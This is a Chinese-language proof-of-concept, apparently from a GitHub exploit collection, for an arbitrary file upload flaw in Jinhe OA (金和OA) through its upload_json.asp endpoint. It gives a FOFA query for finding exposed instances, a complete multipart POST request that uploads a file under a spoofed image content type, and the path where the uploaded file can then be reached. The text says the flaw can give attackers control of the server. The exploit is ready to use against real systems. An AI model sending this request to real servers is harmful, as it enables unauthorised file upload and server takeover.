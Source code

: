 ## 金和OA_upload_json.asp存在任意文件上传漏洞

金和OA upload_json.asp存在任意文件上传漏洞，攻击者可通过此漏洞获取服务器权限。


## fofa
```
app="金和网络-金和OA"
```

## poc
```
POST /c6/KindEditor1/asp/upload_json.asp?dir=file HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Content-Length: 338
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------153857212076213662067051609723

-----------------------------153857212076213662067051609723
Content-Disposition: form-data; name="localUrl"


-----------------------------153857212076213662067051609723
Content-Disposition: form-data; name="imgFile"; filename="hhh.txt"
Content-Type: image/png

hhh
-----------------------------153857212076213662067051609723--
```

![image](https://github.com/wy876/POC/assets/139549762/2c14919b-e00d-49bf-8b94-21b5696bb8fe)

访问上传的文件
/c6/KindEditor1/asp/../attached/file/20240103/20240103164534323432.txt

![image](https://github.com/wy876/POC/assets/139549762/20dd3197-a7f9-4a74-863d-050603eab427)
